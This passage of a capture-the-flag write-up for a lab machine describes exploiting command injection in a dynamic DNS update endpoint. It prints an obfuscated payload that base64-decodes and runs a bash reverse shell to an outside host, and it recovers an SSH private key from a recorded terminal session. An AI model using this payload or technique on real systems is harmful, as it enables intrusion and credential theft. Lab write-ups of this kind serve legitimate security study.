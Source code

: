 <img src="Basic ZHluYWRuczpzbmRhbnlk"/>

But kept getting error so I added a random subdomain `arz.dnsalisa.htb`

<img src="https://imgur.com/mjhlsoc.png"/>

This response tells that hostname is updated but we can't do anything with it so I tried to do `command injection` here

<img src="https://imgur.com/xhYYaNI.png"/>

Following this payload list , I was able to confirm command injection

https://github.com/payloadbox/command-injection-payload-list

<img src="https://i.imgur.com/dOywGzk.png"/>

Now to get a shell that would be neded to get url encoded but it's a pain in doing that so I will first base64 encode the bash reverse shell ,pipe it to decode and then pipe it to bash

<img src="https://imgur.com/NPJdct1.png"/>

```bash
$(echo+L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU3LzIyMjIgMD4mMSc=+|+base64+-d+|+bash)
```

<img src="https://imgur.com/qb18XAH.png"/>


Going into `bindmgr`'s home directory I found some files and one of them was a `script` file , a script just records every command you type on the terminal ,so on looking into script file we'll find something interesting

<img src="https://i.imgur.com/5SziTEn.png"/>

<img src="https://i.imgur.com/g4eBFpH.png"/>

Let's just put this in a bash script where we would echo the ssh key with `-e` which would enable use of escape characters but this didn't work

<img src="https://imgur.com/Cxl1ext.png"/>

It turns out it had space between lines so manually had to remove them and then I just used python3 to print the key

<img src="https://imgur.com/dPMojYZ.png"/>

<img src="https://imgur.com/vfLaPJX.png"/>

But I wasn't able to login with id_rsa key because there's host name involved in `authroized_keys` file

<img src="https://i.imgur.com/p7rHtRs.png"/>
